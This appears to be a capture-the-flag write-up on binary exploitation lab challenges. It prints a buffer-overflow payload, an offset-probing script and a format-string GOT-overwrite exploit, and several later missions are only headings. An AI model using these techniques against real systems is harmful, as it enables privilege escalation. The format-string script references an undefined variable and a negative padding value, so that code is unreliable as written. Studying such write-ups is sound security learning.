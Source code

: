 # Binary challenges

The goal of all challenges is to read the content of file flag.txt, that needs upper privileges.

## Mission0: System of a BOF

The vulnerability to exploit is a buffer overflow. The idea is to overwrite the return address with the address of function win.

In order to get the exact position of the return address I used the function cyclic from pwntools. 
The address of win can be found in gdb with the command:

```
 info address win
```

Now I have everything to craft the exploit with python:

```
win_address = "\xcb\x84\x04\x08"
offset = 144
print("pie!" + "A" * offset + win_address)
```

## Mission1: Baby ASCII Art

The vulnerability to exploit is a string format.

The general idea is to be able to execute the function cat, present in the binary, passing by arguments "flag;".

I had to craft a string format exploit to write in the return address of the printf function with the one of cat. The address of printf can be found in the binary with the command:

```
readelf -s mission1 | grep printf
```

The offset (displacement) to be used in the exploit can be easily found by writing a small script in python that uses the string format vulnerability and tries multiple values.

<pre data-overflow="wrap"><code>import subprocess
<strong>path = ['env', '-i', './mission1/mission1']
</strong>cat = "> ^ &#x3C;"
start = 1
end = 100

for i in range(start, end + 1):
	check = "AAAA%" + str(i) + "$x"

	process = subprocess.Popen(path, stdin=subprocess.PIPE, stdout=subprocess.PIPE)
	
	pay = "2\n" + check + cat + "\n" + "3\n" + "4\n" 
	output, error = process.communicate(input=pay)
	print("Testing: " + str(i) + "\tOutput: " + str(output) + "\n")

</code></pre>

have everything to craft the exploit with python:

<pre data-overflow="wrap"><code>#to enter in create_art and exploit the string format vulnerability
<strong>start = "2\n" 
</strong>#prepare the argument of cat()
win= "flag;"
#to pass the check on the selected ascii art
cat = "> ^ &#x3C;"
#string format exploit
off = 59
off_1 = off + 1
printf = "\x10\xb0\x04\x08"
printf_2 = "\x12\xb0\x04\x08"
N_1 = 0x0804 - 8 - 8
N_2 = 0x0804 - 0x8a09

exp = printf_2 + printf + "%" + str(N_1) + "c%" + str(new_off) + "$hn%" + str(N_2) + "c%" + str(off_1) + "$hn" 

#to enter in view_saved_art two times: the first one to put in place the exploit, and the second to enter in the overwritten address of printf
end = "\n 3\n 3\n 4\n"
print(start + win + exp + cat + end)

</code></pre>

## Mission2: Muda

The vulnerability is a buffer overflow. We have a buffer of 256bit, that is checked for the presence of "0x0b" or "0x05" (respectively execve and open).

The idea is to use a shellcode that open a privileged shell that does not use the previous commands.

## Mission3: ret2thefuture

## Mission4: Darkroom

It is a reverse engineering challenge: the source code is not provided.

## Mission5: 90s

## Mission6: Endianness Problem

#### Useful resources:

{% embed url="https://ir0nstone.gitbook.io/notes" %}

{% embed url="https://book.jorianwoltjer.com/" %}

